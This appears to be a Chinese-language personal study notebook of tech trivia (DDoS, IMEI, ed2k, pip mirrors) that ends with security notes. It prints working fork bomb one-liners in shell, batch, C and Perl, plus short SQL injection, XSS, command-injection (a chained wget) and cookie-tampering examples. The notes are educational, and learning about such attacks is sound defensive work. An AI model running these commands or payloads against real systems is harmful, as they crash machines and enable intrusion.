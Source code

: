 ### 暴露真实IP会遭到DDos攻击
(DDoS:Distributed Denial of Service)分布式拒绝攻击

Windows 用户“一般被默认授予管理员权限，那意味着他们几乎可以访问系统中的一切”。Linux，反而很好地限制了“root”权限

macos “通过隐匿实现的安全”，这秉承了“让软件内部运作保持专有，从而不为人知是抵御攻击的最好方法”的理念

Windows 的流行本身就是个问题，操作系统的安全性可能很大程度上依赖于装机用户量的规模。对于恶意软件作者来说，Windows 提供了大的施展平台。专注其中可以让他们的努力发挥最大作用。
### 手机IMEI码
在手机拨号处输入"\*#06#"得到手机IMEI码,相当于手机的身份证号码,移动运营商通过IMEI码分辨用户设备，追踪用户地理位置，记录用户拨打电话、发送短信、上网等行为。(可怕)

### python控制浏览器
```
import webbrowser
webbrowser.open('http://baidu.com')
```
### pychram 安装第三方库失败解决方法
`pip install -i https://pypi.tuna.tsinghua.edu.cn/simple some-package`

### ed2k
`ed2k`全称叫“`eDonkey2000 network`”(电驴???)，是一种文件共享网络，最初用于共享音乐、电影和软件。与多数文件共享网络一样，它是分布式的；**文件基于P2P原理存放于用户的电脑上而不是存储于一个中枢服务器**。

`eDonkey`客户端程序连接到这个网络来共享文件。而`eDonkey`服务器作为一个通讯中心，使用户在`ed2k`网络内查找文件。它的客户端和服务端可以工作于`Windows`、`Macintosh`(这是mac..汗颜)、`Linux`、`UNIX`操作系统。**任何人** 都可以作为服务器加入这个网络。由于服务器经常变化，客户端会经常更新它的服务器列表。
`eDonkey`用混合MD4摘要算法检查来识别文件。**这使ed2k网络可以将不同文件名的同一文件成功识别为一个文件，并使同一文件名的不同文件得以区分**(厉害)。`eDonkeyd`的另一特性是：**对大于9.8MB的文件，它在下载完成前将其分割；这将加速大型文件的发送**。为了便于文件搜索，一些Web站点对比较热门的文件建立 ed2k链接 ，这些网站通常也提供热门服务器列表便于用户更新。

### fork boom
fork炸弹（fork bomb）在计算机领域中是一种利用系统调用fork（或其他等效的方式）进行的**拒绝服务攻击**。与病毒与蠕虫不同的是，fork炸弹**没有传染性**，而且fork炸弹会使对**同时执行进程、程序数设限的系统无法执行新程序**，**对于不设限的系统则使之停止响应**。
fork炸弹通过进程递归式派生(fork，亦即自我复制)，以使**系统拒绝服务甚至崩溃**。

fork炸弹以极快的速度创建大量进程（进程数呈以2为底数的指数增长趋势），并以此**消耗系统分配予进程的可用空间使进程表饱和**，而系统在进程表饱和后就无法运行新程序，**除非进程表中的某一进程终止**；但由于fork炸弹程序所创建的所有实例都会不断探测空缺的进程槽并尝试取用以创建新进程，因而即使在某进程终止后也基本不可能运行新进程。fork炸弹生成的子程序在消耗进程表空间的同时也会占用CPU和内存，从而导致系统与现有进程运行速度放缓，响应时间也会随之大幅增加，以致于无法正常完成任务，从而使系统的正常运作受到严重影响。由于现代Unix操作系统普遍采用运用写实拷贝技术，fork炸弹通常不会使进程表饱和。
除了恶意触发fork炸弹破坏的情况外，软件开发中有时也会不慎在程序中嵌入fork炸弹，如在用于监听网络套接字并行使客户端-服务器结构系统中服务器端职责的应用程序中可能需要无限地进行循环（loop）与派生（fork）操作（类似下节示例程序所示），而在这种情况下源代码内的细微错误就可能在测试中“引爆”fork炸弹。
以下程序段就是由Jaromil所作的在类UNIX系统的shell环境下触发fork炸弹的shell脚本代码，总共只用了13个字符（包括空格）：
`:(){ :|:& };:`
注解如下：
>:() # 定义函数,函数名为":",即每当输入":"时就会自动调用{}内代码
{ # ":"函数开始标识
: # 用递归方式调用":"函数本身
| # 并用管道(pipe)将其输出引至...
: # 另一次递归调用的":"函数
综上,":|:"表示的即是每次调用函数":"的时候就会生成两份拷贝
& # 调用间脱钩,以使最初的":"函数被杀死后为其所调用的两个":"函数还能继续执行
} # ":"函数结束标识
; # ":"函数定义结束后将要进行的操作...
: # 调用":"函数,"引爆"fork炸弹
其中函数名“:”只是简化的一例，实际实现时可以随意设定，一个较易理解（将函数名替换为“forkbomb”）的版本如下：
forkbomb(){ forkbomb|forkbomb &} ; forkbomb
(自身调用自身?....理解成死循环好了)

Windows下则可以批处理命令如下实现：
`%0|%0`

POSIX标准下的C与C++的实现：
`#include <unistd.h>int main(){while(1) fork();return0;}`

Perl语言的实现：
`fork while fork`

在系统中成功“引爆”fork炸弹后，我们可重启来使系统恢复正常运行；而若要以手动的方法使fork炸弹“熄火”，那前提就是必须杀死fork炸弹产生的所有进程。为此我们可以考虑使用程序来杀死fork炸弹产生的进程，但由于这一般需要创建新进程，且由于fork炸弹一直在探测与占用进程槽与内存空间，因而这一方法几乎不可能实现，而且用kill命令杀死进程后，释放出的进程槽又会被余下的fork炸弹线程所产生的新进程占用，
在Windows下，用户可以退出当前用户会话的方式使系统恢复正常，但此法奏效的前提是fork炸弹是在该用户的特定会话内触发的

---------------------------------------------
### SQL注入
所谓SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。
`select * from username = ____ and password=_____`
`select * from username   "test" or ""="" and password="123456"`
### XSS
XSS则是攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。
`<p style='color:red'>你好啊，尊敬的______<p>
`
`<p style='color:red'>你好啊，尊敬的 xxx<script>alert(1)</script><p>
`
### 远程命令执行
而远程命令执行，是用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致执行命令。
ping  _______
ping www.baidu.com & wget xxxxxxxxxxx
### 越权
越权漏洞是比较常见的漏洞类型，越权漏洞可以理解为，一个正常的用户A通常只能够对自己的一些信息进行增删改查，但是由于程序员的一时疏忽 ，对信息进行增删改查的时候没有进行一个判断，判断所需要操作的信息是否属于对应的用户，可以导致用户A可以操作其他人的信息。
`Cookie: uid=11426;`
`Cookie: uid=1;`
